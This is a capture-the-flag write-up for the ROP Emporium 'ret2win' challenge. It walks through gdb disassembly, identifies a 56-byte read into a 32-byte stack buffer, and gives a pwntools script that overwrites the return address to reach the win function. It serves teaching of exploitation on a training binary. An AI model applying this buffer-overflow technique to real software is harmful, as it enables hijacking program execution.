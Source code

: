 # Challenge 1: ret2win

https://ropemporium.com/challenge/ret2win.html

In this challenge, the objective is to call the function ret2win by overwriting a saved return address on the stack. To understand this challenge, let’s first look at gdb.

Once we open gdb, running `disassemble` shows us the following assembly code for the function `main`:

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret    
End of assembler dump.
```

Immediately, we notice something interesting. Near the end of the program, the function `pwnme` is called through the assembly `call   0x4006e8 <pwnme>`. The part `<pwnme>` isn’t actually assembly but instead is put by gdb to help us understand the function being called. This is telling us that at the memory address `0x4006e8`, the function `pwnme` is being called.

Next, let’s show the assembly code for `pwnme`. 

```
(gdb) disassemble pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
--Type <RET> for more, q to quit, c to continue without paging--
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave  
   0x0000000000400755 <+109>:	ret    
End of assembler dump.
(gdb)
```

Near the beginning of the function, we see the assembly `lea rax,[rbp-0x20]`. This loads the effective address (hence the name lea - load effective address) of the register `rbp`, subtracts 32 bytes (0x20 is 32 in decimal), and puts the resulting address in the register `rax`. This means that the registers rax and rbp are 32 bytes apart. This means the address in `rax` marks the start of a *buffer*, a chunk of memory used to temporarily store data. The length of the buffer is 32 bytes long as the addresses marking the start and end of the buffer are separated by 32 bytes.

Then, further in the disassembly, we see the following assembly. Note that I removed the memory addresses showing where the instructions are in memory for clarity.

```nasm
mov    edx,0x38
mov    rsi,rax
mov    edi,0x0
call   0x400590 <read@plt>
```

The call instruction in assembly performs a function call. To understand what is happening here, it’s first helpful we understand the procedural linkage table, also known as the PLT. The PLT is a way to link functions from shared libraries into the program. In this case, the read function, a function from the C standard library, also known as libc, is being called. The address `0x400590` is the location of the read function within the PLT, allowing the external read function to be called by using the call instruction. The read function, also known as a syscall, takes three arguments, those arguments being a file descriptor specifying where to read from, a buffer to put the bytes read in, and an amount of bytes to read. By setting the file descriptor to zero through moving 0x0 (0 in hex and thus 0 in decimal) into the `edi` register, we tell the system to read from user input, also known as standard input or stdin. Since we move the address in the register `rax` to the register `rsi`, which is taken in as the second argument to the read syscall, we tell the system to place the data read into the buffer that was created earlier through `lea rax,[rbp-0x20]`. However, looking further, we notice that 0x38 (56) bytes are being read into the buffer, while the buffer can only store 0x20 (32) bytes!.

So, what happens when we put *more* than 32 bytes into the buffer? First, we come across the base pointer, stored in the register `rbp`. As mentioned earlier, this register marked the end of the buffer. However, if we go past `rbp`, we come across what’s known as the return address. The return address is the address the program jumps to after a function call completes. In the case of this program, the return address is the next instruction in main after the function pwnme finishes. However, this means that if we can change the return address, we can change the execution of the program.

Since the register `rbp` is a 64 bit register, it has a size of 8 bytes. The return address following the register also has a size of 8 bytes as it’s on a 64 bit system. So, to exploit the vulnerability, we need to input 40 (32 + 8) bytes into the program, then input the return address of the function ret2win, which will print the flag for us. This overflow *both* the buffer and the base pointer, allowing us to directly change the return address to wherever we want in the program.

A straightforward way to implement this is through python’s pwntools library. My solve script is below.

```python
from pwn import *

p = process("./ret2win", stdout=PIPE, stderr=PIPE)

# Create the payload
payload = b"A" * 32
payload += b"B" * 8
payload += p64(0x400756)

# Send the payload to the binary
p.sendline(payload)

# Get the output
p.interactive()
```

While we could have simplified the payload creation through the line `payload = b"A" * 40 + p64(0x400756)`, splitting the payload into multiple lines makes it more clear what the components of the payload are.

Upon running the script, we get the flag!

```
root@ubuntu:/home/c-bass/pwn/ropemporium/ret2win# python3 solve.py
[+] Starting local process './ret2win': pid 109275
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```
